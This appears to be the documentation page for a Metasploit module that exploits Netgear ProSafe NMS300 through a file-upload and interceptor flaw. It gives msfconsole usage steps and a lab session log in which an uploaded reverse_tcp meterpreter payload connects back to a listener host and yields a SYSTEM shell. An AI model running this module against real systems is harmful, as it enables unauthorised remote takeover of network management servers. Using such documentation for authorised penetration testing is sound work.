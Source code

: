 ## Vulnerable Application

Netgear's ProSafe NMS300 is a network management utility that runs on Windows systems.
The application has multiple vulnerabilities that can allow an unauthenticated remote
attacker to execute code as SYSTEM user. Vulnerabilities include authentication bypass,
SQL injection, arbitrary file upload, and privilege escalation across various versions.
This module is able to spawn a meterpreter session by chaining together two specific
vulnerabilities inside the FileUploadController and MyHandlerInterceptor classes.
This module has been tested with versions `1.5.0.2`, `1.4.0.17`, `1.7.0.12`, and `1.7.0.1`.

Note: Module should also work against version `1.1.0.13` but it wasn't tested.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the [installer](https://www.netgear.com/support/product/nms300#download) for versions below **v1.7.0.22**.
2. Follow installation steps.

After these steps the ProSAFE NMS web panel will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/netgear_nms_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `exploit`

## Options

## Scenarios

```
msf > use exploit/windows/http/netgear_nms_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/http/netgear_nms_rce) > set rhosts 192.168.56.104
rhosts => 192.168.56.104
msf exploit(windows/http/netgear_nms_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(windows/http/netgear_nms_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.104:8080 - Uploading payload...
[+] 192.168.56.104:8080 - Payload uploaded successfully
[*] 192.168.56.104:8080 - Executing payload...
[*] Sending stage (175686 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.104:50133) at 2023-08-02 22:40:21 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
